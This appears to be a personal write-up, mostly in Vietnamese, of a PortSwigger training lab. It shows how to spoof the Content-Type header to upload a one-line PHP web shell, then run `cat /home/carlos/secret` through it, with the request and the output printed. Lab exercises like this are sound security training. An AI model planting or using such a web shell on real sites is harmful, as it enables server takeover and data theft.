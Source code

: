 # [Lab: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file  `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

Phía server check file type dựa vào HTTP header Content-Type, một thứ thuộc user-controller.

Thử upload file php như trước => phản hồi:

```
Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
```

Dùng burpsuite để thay đổi header:

```http
POST /my-account/avatar HTTP/1.1
...
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryumgvvXvThFvAApaR
...

------WebKitFormBoundaryumgvvXvThFvAApaR

Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
...
```

=\> upload được với file name `test.php`

Truy cập vào đường dẫn đến file avatar và thêm query string

```
https://0a8e003c04c7a1f3c0b26d8e006e009b.web-security-academy.net/files/avatars/test.php?command=cat+/home/carlos/secret
```

Kết quả:

```
895Pamr13huKgEVjGMmb1wZXi1F5Bwc2895Pamr13huKgEVjGMmb1wZXi1F5Bwc2
```

Vẫn bị x2 ?